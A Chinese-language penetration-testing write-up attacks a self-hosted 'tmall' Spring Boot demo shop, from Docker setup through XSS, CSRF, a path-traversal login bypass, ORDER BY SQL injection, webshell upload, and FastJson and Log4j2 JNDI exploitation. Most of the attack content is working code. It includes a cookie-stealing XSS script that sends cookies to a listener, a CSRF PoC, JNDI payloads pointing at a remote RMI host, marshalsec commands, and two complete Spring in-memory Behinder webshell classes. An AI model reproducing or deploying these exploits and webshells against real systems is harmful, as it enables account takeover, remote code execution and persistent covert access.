# 0x00 环境搭建

为了测试更加贴近实战，我们把项目部署到服务器上。这里项目带了dockerfile文件，这里就简单说下，每个指令的用途。

搭建步骤：

1、构建jar运行的容器

2、将容器推送到镜像仓库（可选）

3、创建docker网络

4、编写**DockerCompose**文件

5、运行

## **DockerFile**

**基本语法**

- 不区分大小写，但是习惯大写
- 基本以 FROM 指令开头
- \# 开头代表注释

**构建**

```yaml
docker build -t hello:1.0 .  -f HelloWorld 

 -t 后面是有一个 .  的
 docker build -t hello:1.0 .  -f HelloWorld  
 -t用来指定镜像名和标签
	-f指定DockerFile文件 表示在当前目录下查找对应的DockerFile来构建镜像运行容器测试
	

 docker run  hello:1.0
```

**指令学习**

**FROM**

- 作用

- - 用来定义基础镜像用法FROM 镜像名:标签名
  - 例如 FROM centos:7  

- 作用时机 

- 构建镜像的时候 

**ENV**

- 作用

- - 用来定义环境变量

- 用法

- - ENV 变量名="变量值"
  - 例如ENV DIR="/root"

- 作用时机

- - 构建镜像的时候

- - 

**COPY**

从构建上下文中赋值内容到镜像中，就是将宿主机的文件，复制到容器中


- **RUN**

- 作用

- - 它是用来定义构建过程中要执行的命令的

- 用法

- - RUN 命令
  - 例如RUN echo sg

- 作用时机

- - 构建镜像的时候

- 

**EXPOSE**

- 作用

- - 暴露需要发布的端口，让镜像使用者知道应该发布哪些端口

- 用法

- - EXPOSE 端口号1 端口号2 ....
  - 例如EXPOSE 80 8080
  - EXPOSE 80

- 作用时机

- - 构建镜像的时候

- 

- **ENTRYPOINT**

- docker  run 的时候不会覆盖entrypoint的内容

- entrypoint ['echo','hello']

  

```
# 使用官方的OpenJDK 8 JDK镜像作为基础镜像  
FROM openjdk:8-jdk  
  
# 设置维护者信息，这是可选的，但通常用于联系维护者  
LABEL maintainer=xtaylkss@163.com  
  
# 设置环境变量，这些参数会被传递给Spring Boot应用程序  
ENV PARAMS="--server.port=8080 --spring.datasource.password=123456.h --spring.datasource.url=jdbc:mysql://tmall_mysql:3306/tmalldemodb?characterEncoding=utf-8&useSSL=false"  
  
# 将上海时区文件复制到/etc/localtime，并设置系统时区为上海时区  
RUN /bin/cp /usr/share/zoneinfo/Asia/Shanghai /etc/localtime && echo 'Asia/Shanghai' >/etc/timezone  
  
# 将构建生成的jar文件复制到容器中的/app.jar  
COPY target/*.jar /app.jar  
  
# 开放容器的8080端口，使得外部可以访问该端口  
EXPOSE 8080  
  
# 设置容器启动时要运行的命令，这里使用的是Spring Boot应用程序的启动命令  
ENTRYPOINT ["/bin/sh","-c","java -Xms512M -Xmx1024M -Dfile.encoding=utf8 -Djava.security.egd=file:/dev/./urandom -jar /app.jar ${PARAMS}"]
```


## 构建容器

docker build -t tmall:1.0 .  -f tmall


**镜像推送到镜像仓库**

步骤

- 注册账号
- 登录镜像仓库
- 构建镜像
- 给镜像打标签，以便将其与Docker Hub 上的仓库关联
- 推送镜像

```shell

#登录账号
docker login 

#构建镜像
docker  build -t onlywritebugs/test:01 -f dockerFile

#给镜像打标签，以便将其与Docker Hub 上的仓库关联
#username 是DockerHub的用户名
#第一个username/镜像名:tag 是本地的镜像名，第二个是推送至dockerhub的名称
docker tag username/镜像名:tag username/镜像名:tag

docker tag onlywritebugs/test:01 onlywritebugs/test:01

#推送镜像
docker push username/镜像名:tag
docker push onlywritebugs/test:01


```


## 创建网络

docker network create tmall_net

```
**创建网络**
docker network create 网络名 
例：
docker network create tmall_net


**列出**
docker network ls

加入网络

创建容器时加入 
	我们可以在容器创建时使用--network选项让容器创建时就加入对应的网络。 
	docker  run --network 网络名 镜像名 
容器创建后加入  
	如果容器已经创建了想加入网络可以使用
    docker  network c onnect命令 
    docker network connect [选项] 网络名 容器名或容器id 
	
	例如 docker network   connect  tmall_net  mysql
	
查看网络详情
docker network inspect 网络名或网络id
```

## 编写dockerCompose文件

```yaml
services:
  #mysql
  tmall_mysql: #服务名称
    image: mysql:8.0
    volumes:
      - mysql_data:/var/lib/mysql
    ports:
      - 3306:3306
    environment:
      MYSQL_ROOT_PASSWORD: 123456.h
    command: --lower_case_table_names=1
    networks:
      - tmall_net

  #后端
  tmall_app:
    image: onlywritebugs/tmall:1.0
    ports:
      - 7778:8080
    networks:
      - tmall_net
   

networks:
  tmall_net:
volumes:
  mysql_data:
```


# 一、前台

## 1、XSS

### 1.1 搜索处XSS





### 1.2 后台XSS

由于后台管理员能够看到具体的用户名信息，所以直接能够打到后台的管理员的XSS





下面构造XSS代码，获取管理员的信息。

这里使用boot写个web项目，写个Interceptor可以获取请求的各种信息，然后打印。用于接收XSS传递过来的数据。并且需要配置下跨域。



xss代码:

getCookie.js

```js
(function Show(){

    const cookie = document.cookie;
     
    // 使用xhr向URL为： 127.0.0.1:8083发送GET请求，参数为cookie=上面获取的cookie  
    const xhr = new XMLHttpRequest();  
    xhr.open('GET', 'http://127.0.0.1:8083', true);  
    
    xhr.onload = function () {  
        if (xhr.status >= 200 && xhr.status < 300) {  
            console.log(xhr.responseText);  // 请求成功，打印返回的内容  
        } else {  
            console.error(xhr.statusText);  // 请求失败，打印错误信息  
        }  
    };  
    
    xhr.onerror = function () {  
        console.error('请求发生错误');
        xhr.setRequestHeader('Cookie', "请求发生错误");
    };  
    
    // 将获取的cookie添加到请求头中  
    // 请替换为您要获取的cookie的名称  
    
     xhr.setRequestHeader('Cookie', cookie);  
    

    xhr.send();

    
})()
```

引入getCookie.js

```js
<script src="xxx"></script>
```




这里说不能携带cookie。加上xhr.withCredentials = true; // 携带跨域cookie



8083后台已经接收到cookie，但是有用的数据并没有传递过来。





把cookie当作参数传递过来。





至于为什么不能当作cookie传递，这涉及到CSRF的知识。在附中做详细说明。


## 2、头像上传

和后台文件上传一样


## 3、CSRF漏洞

在修改信息处存在CSRF漏洞，能够修改登录密码，昵称等信息。

构造具体poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1:8080/tmall/user/update" method="POST">
      <input type="hidden" name="user&#95;profile&#95;picture&#95;src" value="" />
      <input type="hidden" name="user&#95;nickname" value="123&#45;updateByCsrf" />
      <input type="hidden" name="user&#95;realname" value="updateByCsrf" />
      <input type="hidden" name="user&#95;password" value="Admin&#64;123" />
      <input type="hidden" name="user&#95;password&#95;one" value="Admin&#64;123" />
      <input type="hidden" name="user&#95;gender" value="0" />
      <input type="hidden" name="user&#95;birthday" value="2023&#45;11&#45;29" />
      <input type="hidden" name="user&#95;address" value="110101" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

但是点击的时候，会发现其实会跳转到登录界面，这是因为现在的高版本浏览器对CSRF的防护，具体见附中的讲解。这里使用火狐渗透版。




## 4、越权排查

首先看一下查看个人信息的逻辑，发现是写在jsp文件中的。查看个人信息不存在越权，信息是从session获取的，那修改个人信息呢。直接看下后端接口，也不存在越权。（ps:这样写也不一定不存在漏洞，有的后端接口还是从前端拿到的ID ，具体还是要看接口的具体的写法。）



像这种接口，并没有接收前端的ID



但是这个接口是从前端接收了ID，所以可以直接越权查看别人的信息，但是这个是在后台，貌似意义不大。



有了这个思路，是不是可以写个检测越权的小工具呢？


# 二、后台

## 1、 登录权限绕过

对于springboot的项目，登录权限校验一般写在filter中。如果是Shiro和Tomcat则可以使用../ 或 ../; 

可以看到，这个过滤器是针对/admin/*路径的

```
@WebFilter(filterName="adminPermissionFilter",urlPatterns= {"/admin/*"})
```

doFilter代码如下

```
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
    HttpServletRequest servletRequest = (HttpServletRequest) request;
    //如果是(登录界面,登录态失效界面)，直接放行
    //① 
    if(servletRequest.getRequestURI().contains("/admin/login") ||
            servletRequest.getRequestURI().contains("/admin/account")
    ){
        chain.doFilter(request, response);
    } else {
        logger.info("检查管理员权限");
        Object o = servletRequest.getSession().getAttribute("adminId");
        if(o == null){
            logger.info("无管理权限，返回管理员登陆页");
            request.getRequestDispatcher("/admin/login").forward(request, response);
        } else {
            logger.info("权限验证成功，管理员ID：{}",o);
            chain.doFilter(request, response);
        }
    }
}
```

​	需要特别注意的是，上面代码是使用string.contains()判断，在注释的①处，判断如果包含xxx路径则直接放行，这个时候可以尝试使用 /xxx/../aa/bb ，这样在tomcat中接收到的路径是: /aa/bb 。就绕过了对 /aa/bb 的权限认证。但是这个是有条件的，只有特定的中间件才有这样解析。

**SpringBoot(Tomcat)和Shiro对URL处理的差异化**

| 漏洞编号            | CVE-2020-1957        | CVE-2020-11989       | CVE-2020-13933     |
| ------------------- | -------------------- | -------------------- | ------------------ |
| 影响版本            | Apache Shiro < 1.5.1 | Apache Shiro < 1.5.2 | Apache Shiro < 1.6 |
| payload             | /xxx/..;/admin/      | /;/test/admin/page   | /admin/;page       |
| Shrio 处理结果      | /xxxx/..             | /                    | /admin/            |
| SpringBoot 处理结果 | /admin/              | /admin/page          | /admin/;page       |

1、正常情况下由于回直接跳到后台登录




2、使用../绕过



## 2、SQL注入

由于系统使用了Mybatis框架，正常查询是不存在sql注入的，但是有的SQL语句，必须用到拼接，而拼接又存在两种方式： ${} 、#{} 。对于使用${}拼接的，相当于使用 + 连接字符串，因此如果参数可控依然存在SQL注入。

同时由于order by语句，不能使用预编译，所以order by 后也只能使用 ${}拼接。

直接在代码搜${ 查找哪里进行了拼接。

可以看到多处都使用了${}进行拼接，都是在order by后。现在，只需要网上跟进，找到Controller层，看下参数是否可控即可。



经过查找，最终找到RewardController.getRewardBySearch()  ---> RewardServiceImpl.getList() --> rewardMapper.select()



这里可以直接构造参数，也可以找到WEB页面抓包后，修改信息。对于order by注入，可以使用报错注入或者布尔盲注，这样报错不能使用，可以使用布尔注入。

```sql
#拼接后的sql语句为：
 SELECT
            reward_id,
            reward_name,
            reward_content,
            reward_createDate,
            reward_user_id,
            reward_state,
            reward_amount
        FROM reward
 ORDER BY ${orderUtil.orderBy}
 
 # 因为此时我们已经知道字段的，所以可以这样构造，
select * from users order by (case when (1=1) then  reward_id else reward_name end );
#根据回显的顺序不同，可以判断when的条件。这里直接上sqlmap。
```



还有其他多个注入点，查找方法类似。


## 3、文件上传

直接搜索 ： upload 、MultipartFile


可以看到，上传处并没有对文件做任何校验过滤。

但是这里需要知道的是正常来说，Springboot项目是不能够解析JSP文件的，这里能够解析，是因为引入了jstl和jasper依赖。所以，对于前后端分离的springboot项目，即使上传了马子，也没办法解析。

直接上传冰蝎的jsp。



使用冰蝎连接


## 4、组件漏洞--FastJson

先看下版本



这里再用一下，fastjson版本的判断，刚好看下准确不。



不过需要先找到具体的反序列化的地方。

可以直接搜： JsonObject 、 parse、JSON.

能够看到这种写法符合FastJson的利用



具体再产品添加上，可以添加个产品再抓包使用。



具体的漏洞再propertyJson字段




用payload探测一下。

```
{"@type":"java.net.Inet6Address","val":"sdffsd.dnslog.cn"}


{"name":{"@type":"java.net.InetAddress","val":"1247.xxxxx.dnslog.cn"}}

{"@type":"java.net.InetSocketAddress"{"address":,"val":"wefewffw.dnslog.cn"}}
```







`但是以上payload只能证明fastjson出网，无法判断fastjson是否存在反序列化漏洞，因为最新的打了补丁的fastjson也是能发起DNS请求的。这是很多新手，误以为能DNS出网，就认为存在fastjson漏洞，这是不正确的。`

其实，会发现，这个FastJson版本，并不能利用，只能打打DNS。

这里把版本改成1.2.47。开个RMI服务，打入payload。请求有了，但是代码没有执行。这里有以下几种情况，代码是执行不了的。

> 1、把Java编译成class的时候Java版本A     和目标极其运行的Java版本B   ，两个Java版本不同，导致失败
>
> 2、不仅FastJson要满足对应版本，jdk也要满足对应版本
>
> 3、编译的时候eval.java 不能有package

可以看到，我这个是因为存在包名。



修改一下eval代码

```
import java.io.IOException;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-12-22 21:25
 */
public class Eval {


    public Eval() throws IOException {

        Runtime.getRuntime().exec("calc");

    }

}
```




既然都做到这里了，那就再尝试一下打入内存马吧。


1、创建恶意类，见附件


2、然后我们借助marshalsec项目，启动一个RMI服务器，监听9999端口，并制定加载远程类EvalCode.class：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://xx.xx.xx:8000/#EvalCode" 9999
```

3、打入payload

```shell
{
    {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}, 
        {
          "@type":"com.sun.rowset.JdbcRowSetImpl",
           "dataSourceName":"rmi://120.46.36.55:9999/EvalCode",
          "autoCommit":false
        }
}
```


也可以使用二开过的JNDI-exploit，有工具的话就用现成的吧。这里为了学习还是手动打入内存马。（内存马代码部分放到文末了）。直接打入冰蝎的。

注册Controller后，不知道为什么访问具体的路径的时候出现了如下问题：`java.lang.IllegalArgumentException: Expected lookupPath in request attribute "org.springframework.web.util.UrlPathHelper.PATH".`

springboot 2.6.x 以上最近版本添加了`pathPatternsCondition` ,以往的手动注册方式会导致任意请求提示。

该问题就是源自springboot 2.6.0后的新特性，目前版本的解决方案是在springboot的配置文件中，以下配置，修改默认映射策略：`spring.mvc.pathmatch.matching-strategy=ANT_PATH_MATCHER`



既然这种方式不行

在新的版本中使用以下方式来自定义注册Spring boot RequestMapping：

```java
见附
```

按照上面代码，修改内存马的代码





​	至于视频中，云服务器大内存马失败，是因为版本不同，当然其实我们可以用agent型内存马。后面的会发布一下Java-agent内存马的相关知识点。

## 5、组件漏洞--Log4j2

从pom文件中可以看到使用的组件，以其对应的版本。



log4j2和log4J如何区分？

1. Log4j2分为2个jar包，一个是接口

log4j-api-${版本号}.jar，一个是具体实现log4j-core-${版本号}.jar。Log4j只有一个jar包log4j-${版本号}.jar。

1. Log4j2的版本号目前均为2.x。Log4j的版本号均为1.x。
2. Log4j2的package名称前缀为 org.apache.logging.log4j
3. Log4j的package名称前缀为org.apache.log4j

不过，由于log4J2在2.16.0中，完全移除了lookup功能，修改了MessagePatternConverter实例化中的逻辑，并且删除了LookupMessagePatternConverter这个内部类。所以当前的log4j2版本，并不存在漏洞，所以为了练习下log4j2，可以改一下版本。


直接搜索： logger.info 、info 、error、logger



文件上传这里，刚刚看到，文件名是可控的。直接用这个做测试。

断电调试后，发现文件名直接可控。先使用DNS探测一下。


可以利用




下面直接尝试直接打入内存马和FastJson利用相同。

下面使用JNDI工具利用

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 127.0.0.1
```


# 附


## FastJson打入内存马

```java
import org.springframework.beans.factory.InitializingBean;
import org.springframework.util.Assert;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import javax.sound.midi.Soundbank;
import java.io.IOException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.HashMap;
import java.util.Map;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-10-28 13:37
 */
public class Eval extends java.lang.ClassLoader  {


    public Eval() {

        Runtime runtime = Runtime.getRuntime();
        Process pc = null;
        try {
            pc = runtime.exec("ping",new String[]{"-c 4","c3e3sc.dnslog.cn"});
            pc.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }


        System.out.println("开始.....");
        java.lang.reflect.Field filed = null;
        try {
            filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        filed.setAccessible(true);
        WebApplicationContext context = null;
        try {
            context = (WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        System.out.println("获取 WebApplicationContext 成功" );
       // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean

        RequestMappingHandlerMapping handlerMapping = null;

        try {

//            handlerMapping = context.getBean(RequestMappingHandlerMapping.class);

            // 获取所有的 bean 对象
            Map<String, Object> beans = context.getBeansOfType(Object.class);
//            // 遍历所有的 bean 对象
            for (Map.Entry<String, Object> entry : beans.entrySet()) {
                String beanName = entry.getKey();
                Object beanInstance = entry.getValue();

                // 在这里处理每个 bean 对象，可以输出 bean 的名称或执行其他操作
//                System.out.println("Bean Name: " + beanName);
//                System.out.println("Bean Class: " + beanInstance.getClass().getName());
                if ("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping".equals(beanInstance.getClass().getName())){
                    handlerMapping =(RequestMappingHandlerMapping) beanInstance;
                    break;
                }
            }

        }catch (Exception e){
            System.out.println(handlerMapping);
            System.out.println(e);
        }
        System.out.println("获取 RequestMappingHandlerMapping 的实例 bean ");
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = null;
        try {
            method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        System.out.println("初始化 AbstractHandlerMethodMapping 的 getMappingRegistry 方法完成");

        // 通过反射获得该类的cmd方法
        Method method2 = null;
        try {
            method2 = Eval.class.getMethod("cmd");
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        }
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/xixihaha");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        Eval injectToController = new Eval(null);
        // 将该controller注册到Spring容器
        handlerMapping.registerMapping(info, injectToController, method2);

    }

    Eval(java.lang.ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        // 调用父类的defineClass函数 , 相当于自定义加载类
        //这句代码将返回一个 java.lang.Class 对象。这个类对象表示通过字节数组 b 中的类文件数据动态加载的类。
        // defineClass 方法用于将二进制数据转换为类的实例。
        return super.defineClass(b, 0, b.length);
    }

    // 处理远程命令执行请求
    public void cmd() {
        HttpServletRequest request = null;
        HttpServletResponse response = null ;
        try{
            request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        }catch (Exception e){
            System.out.println("Get __ request Error ");
            System.out.println("Get __ response Error ");
            System.out.println(e);
        }

        //注入冰蝎
        if (request.getMethod().equals("POST")) {

            HttpSession session = request.getSession();


            String k = "0945fc9611f55fd0e183fb8b044f1afe".substring(0,16);/*该密钥为连接密码32位md5值的前16位，连接密码nopass*/
            session.putValue("u", k);
            Cipher c = null;
            try {
                c = Cipher.getInstance("AES");
            } catch (NoSuchAlgorithmException e) {
                e.printStackTrace();
            } catch (NoSuchPaddingException e) {
                e.printStackTrace();
            }
            try {
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            } catch (InvalidKeyException e) {
                e.printStackTrace();
            }

            HashMap<Object, Object> pageContext = new HashMap<>();
            pageContext.put("request",request);
            pageContext.put("response",response);
            pageContext.put("session",session);
            try {
                new Eval(this.getClass().getClassLoader())

                        //调用方法g 加载一个类
                        .g(
                                c.doFinal(
                                        //sun.misc.BASE64Decoder 类被用于解码 HTTP POST 请求中的数据，
                                        // 该数据经过 BASE64 编码。这个操作通常在服务器端用于处理客户端传递的数据，
                                        // 尤其是在需要进行数据解密或还原时。
                                        new sun.misc.BASE64Decoder()
                                                .decodeBuffer(request.getReader().readLine())))
                        //调用完g 加载一个类，调用newInstance() 后 ,相当于new
                        .newInstance().equals(pageContext);
            } catch (InstantiationException e) {
                e.printStackTrace();
            } catch (IllegalAccessException e) {
                e.printStackTrace();
            } catch (IllegalBlockSizeException e) {
                e.printStackTrace();
            } catch (BadPaddingException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }

    }


}

```

## FastJson注入冰蝎代码(boot<2.6)

​	核心就是拿到request、response、session，从3.0开始，只需要把这三个封装到map中，传到冰蝎客户端就行了。

```java


import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Scanner;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-10-28 13:37
 */
public class EvalCodeInjectBehinder extends java.lang.ClassLoader {


    public EvalCodeInjectBehinder() throws Exception{
        
        
        Runtime runtime = Runtime.getRuntime();
        Process pc = runtime.exec("calc");
        pc.waitFor();
        
        
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        // 通过反射获得该类的cmd方法
        Method method2 = EvalCodeInjectBehinder.class.getMethod("cmd");
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/txf");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        EvalCodeInjectBehinder injectToController = new EvalCodeInjectBehinder(null);
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method2);

    }

     EvalCodeInjectBehinder(java.lang.ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        // 调用父类的defineClass函数 , 相当于自定义加载类
        //这句代码将返回一个 java.lang.Class 对象。这个类对象表示通过字节数组 b 中的类文件数据动态加载的类。
        // defineClass 方法用于将二进制数据转换为类的实例。
        return super.defineClass(b, 0, b.length);
    }

    // 处理远程命令执行请求
    public void cmd() throws Exception {
        
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        //注入冰蝎
        if (request.getMethod().equals("POST")) {

            HttpSession session = request.getSession();


            String k = "11f55fd0e183fb8b";/*该密钥为连接密码32位md5值的前16位，连接密码nopass*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));

            HashMap<Object, Object> pageContext = new HashMap<>();
            pageContext.put("request",request);
            pageContext.put("response",response);
            pageContext.put("session",session);
            new EvalCodeInjectBehinder(this.getClass().getClassLoader())

                    //调用方法g 加载一个类
                    .g(
                            c.doFinal(
                                    //sun.misc.BASE64Decoder 类被用于解码 HTTP POST 请求中的数据，
                                    // 该数据经过 BASE64 编码。这个操作通常在服务器端用于处理客户端传递的数据，
                                    // 尤其是在需要进行数据解密或还原时。
                                    new sun.misc.BASE64Decoder()
                                            .decodeBuffer(request.getReader().readLine())))
                    //调用完g 加载一个类，调用newInstance() 后 ,相当于new
                    .newInstance().equals(pageContext);
        }

    }

}

```


### 错误解决

`org.springframework.beans.factory.NoUniqueBeanDefinitionException: No qualifying bean of type 'org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping' available: expected single matching bean but found 2: requestMappingHandlerMapping,controllerEndpointHandlerMapping`


`equestMappingHandlerMapping` 和 `ControllerEndpointHandlerMapping` 是 Spring MVC 中用于处理请求映射的两个组件。

1. **RequestMappingHandlerMapping**
   - **作用**：该组件负责解析从客户端发送到服务器的 HTTP 请求，并找到一个与请求匹配的处理器（通常是一个 Controller 方法）。
   - **类型**：它是一个 `HandlerMapping` 的实现，用于处理基于 `@RequestMapping`、`@GetMapping`、`@PostMapping` 等注解的请求映射。
   - **用法**：通常，每个带有 `@RequestMapping` 或其他相关注解的 Controller 方法都会由 `RequestMappingHandlerMapping` 进行解析和匹配。
2. **ControllerEndpointHandlerMapping**
   - **作用**：这个组件是在 Spring 5 中引入的，专门用于处理带有 `@ControllerEndpoint` 注解的端点。
   - **类型**：它是 `HandlerMapping` 的一个具体实现。
   - **用法**：当你在 Spring 应用程序中定义了一个或多个使用 `@ControllerEndpoint` 注解的端点时，这些端点的请求映射将由 `ControllerEndpointHandlerMapping` 来处理。这使得你可以将一些特定的端点（如 WebSockets 端点）与其他基于注解的请求映射区分开来。

简而言之，`RequestMappingHandlerMapping` 主要用于处理基于注解的请求映射，而 `ControllerEndpointHandlerMapping` 专门用于处理使用 `@ControllerEndpoint` 注解定义的端点。


## 关于XSS代码中问题

```js
(function Show(){

    const cookie = document.cookie;  
     console.log(cookie)
    // 使用xhr向URL为： 127.0.0.1:8083发送GET请求，参数为cookie=上面获取的cookie  
    const xhr = new XMLHttpRequest();  
    xhr.open('GET', 'http://127.0.0.1:8083?cookie='+cookie, true);  
    xhr.withCredentials = true; // 携带跨域cookie
    
    xhr.onload = function () {  
        if (xhr.status >= 200 && xhr.status < 300) {  
            console.log(xhr.responseText);  // 请求成功，打印返回的内容  
        } else {  
            console.error(xhr.statusText);  // 请求失败，打印错误信息  
        }  
    };  
    xhr.onerror = function () {  
        console.error('请求发生错误');
        xhr.setRequestHeader('Cookie', "请求发生错误");
    };  
    // 将获取的cookie添加到请求头中 
     xhr.setRequestHeader('Cookie', cookie);
    xhr.send();
})()


```

上面代码中，并不能把cookie携带到http Header中，看到这个突然想到有次src挖掘中遇到的CSRF也是这样，即使A用户已经登录，点击构造的html后，回显未登录，后来发现并没有携带cookie。这是为什么呢？

通过查看请求的header发现了如下头

`Header: sec-fetch-site = same-site `

`Header: sec-fetch-mode = cors `

`Header: sec-fetch-dest = empty`


​	这些`Header`是浏览器自动添加的，用于描述一个请求的特定方面，尤其是关于跨站请求（cross-site requests）的安全性。以下是这三个头的简单解释：

1. **sec-fetch-site**：这个头部定义了请求的来源。`same-site`值表示请求是在同一站点内发起的。这是为了防止“混合内容”的问题，其中HTTP站点包含HTTPS内容或反之亦然，可能影响用户的隐私和安全。
2. **sec-fetch-mode**：这个头部描述了请求的模式。`cors`值表示这是一个跨来源资源共享（CORS）请求，即一个从不同源（域名、协议或端口任何一个不同）的请求。这有助于浏览器实施CORS策略，确保只有经过授权的请求能够成功。
3. **sec-fetch-dest**：这个头部描述了请求的目标类型。`empty`值表示请求的目标是一个文档（例如HTML、JSON等）。这有助于浏览器了解应该如何处理和渲染返回的内容。

这些头部是在现代浏览器中自动添加的，作为安全性和资源请求管理的一部分。开发人员通常不需要手动配置这些头部，除非他们正在使用某些特定的工具或代理服务器，并且需要更精细地控制这些请求的属性。





​	图片的跨域请求，在chrome浏览器79版本及以前，samesite默认为none，跨站的时候是会携带cookie的。而在79版本之后，samesite默认为lax，跨站请求的时候则不会携带cookie。跨站和跨域概念还不一样。跨站一定跨域，跨域则不一定跨站。

​	这样就能理解为什么header中不带cookie了。所以XSS都是获取到信息后，通过参数传递。


